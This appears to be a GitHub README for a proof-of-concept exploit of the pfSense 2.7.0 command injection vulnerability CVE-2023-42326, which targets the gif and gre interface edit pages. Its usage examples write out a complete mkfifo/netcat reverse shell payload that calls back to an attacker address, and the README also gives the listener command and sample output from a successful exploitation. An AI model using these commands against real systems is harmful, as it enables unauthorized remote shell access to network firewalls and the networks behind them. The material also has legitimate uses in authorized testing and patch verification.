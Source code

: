 
# pfSense 2.7.0 Command Injection Exploit (CVE-2023-42326)

This Python script is a Proof-of-Concept (PoC) exploit for the command injection vulnerability (CVE-2023-42326) in pfSense 2.7.0. The vulnerability allows authenticated attackers to inject and execute arbitrary commands via the `interfaces_gif_edit.php` and `interfaces_gre_edit.php` components.

## Features
- Exploit mode selection (`gif` or `gre`) to choose the vulnerable components.
- Command injection capability to run arbitrary shell commands.
- Netcat reverse shell handling with automatic thread management.
- Debug mode for enhanced visibility of request data.

## Prerequisites
Before running the script, make sure you have:
- Python 3.x installed on your system.
- Required Python libraries installed:
  ```bash
  pip install requests beautifulsoup4 rich
  ```

## Usage

### Basic Example (Command Injection)

This command injects a shell command that creates a reverse shell back to your machine:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"
```

- `-u`: Username for pfSense admin login.
- `-p`: Password for pfSense admin login.
- `--mode`: Exploit mode (either `gif` or `gre`).
- `-t`: Target URL of pfSense.
- `-c`: The shell command to inject.
- `-d`: (Optional) Enable debug mode to see raw response data.

### Reverse Shell Example
Ensure you have a Netcat listener running on your machine:

```bash
nc -lvnp 80
```

Then, run the script with a reverse shell command like this:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"  --insecure(for https without valid ssl)
```

### Demo GIFs

1. **Logging into pfSense and Exploiting GIF Interface**

   ![Demo 1 - GIF Interface](img/demo.gif)

2. **Executing a Reverse Shell**

   ![Demo 2 - Reverse Shell](img/example.png)

### Script Options
| Argument      | Description                                                        |
|---------------|--------------------------------------------------------------------|
| `-u`          | Username for pfSense admin login.                                  |
| `-p`          | Password for pfSense admin login.                                  |
| `-t`          | Target pfSense URL/IP address (e.g., `http://10.101.1.1`).         |
| `--mode`      | Exploit mode: `gif` (for `interfaces_gif_edit.php`) or `gre`.      |
| `-c`          | Command to inject into the vulnerable component.                   |
| `-d`          | Optional. Enable debug mode to print response data for visibility. |

### Example Output
When the exploit runs successfully, you should see output similar to this:

```bash
██████╗ ███████╗██████╗ ██╗    ██╗███╗   ██╗███╗   ███╗███████╗
██╔══██╗██╔════╝██╔══██╗██║    ██║████╗  ██║████╗ ████║██╔════╝
██████╔╝█████╗  ██████╔╝██║ █╗ ██║██╔██╗ ██║██╔████╔██║█████╗  
██╔═══╝ ██╔══╝  ██╔═══╝ ██║███╗██║██║╚██╗██║██║╚██╔╝██║██╔══╝  
██║     ██║     ██║     ╚███╔███╔╝██║ ╚████║██║ ╚═╝ ██║███████╗
╚═╝     ╚═╝     ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝╚═╝     ╚═╝╚══════╝

Done with ❤️  by @bl4ckarch                                                            
[2024-10-24 03:57:59] [SUCCESS] Target http://10.101.1.1 is reachable
[2024-10-24 03:57:59] [INFO] Fetching CSRF token from: http://10.101.1.1/
[2024-10-24 03:57:59] [SUCCESS] CSRF token extracted successfully
[2024-10-24 03:57:59] [INFO] Sending GIF exploit request to http://10.101.1.1/interfaces_gif_edit.php
[2024-10-24 03:57:59] [SUCCESS] GIF Exploit sent successfully
```

### Notes

- **Privilege Requirement**: You must have valid admin credentials for the pfSense instance.
- **Target System**: This exploit is specific to pfSense 2.7.0.
- **Reverse Shell**: Ensure your firewall settings allow incoming connections on the specified port when setting up a reverse shell.

### Debug Mode

If you want to see more details about the requests being sent, you can enable debug mode by adding `-d` to your command. This will print out response data and help you troubleshoot any issues.

```bash
python3 exploit.py -u "admin" -p 'pfsense' --mode 'gif' -t http://10.101.1.1 -c "your_command_here" -d --insecure(for https without valid ssl)
```

### Troubleshooting
- Ensure the target system is reachable.
- Double-check the credentials being used for login.
- Use the `-d` flag for more detailed logging if needed.

### License

This project is licensed under the MIT License.
